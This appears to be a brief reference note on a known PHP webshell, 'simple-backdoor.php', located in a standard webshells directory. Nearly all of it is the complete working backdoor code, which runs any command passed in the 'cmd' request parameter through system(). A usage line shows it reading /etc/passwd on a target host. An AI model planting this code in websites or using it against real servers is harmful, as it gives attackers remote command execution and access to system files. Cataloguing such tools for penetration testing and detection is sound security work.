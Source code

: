 # Overview

## Location
'/usr/share/webshells/php/simple-backdoor.php'
## Code Review
~~~ php
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->

~~~
### Application
## Tags
#webshell
#php
#simplebackdoor 
#remotefileinclusion
#webapplications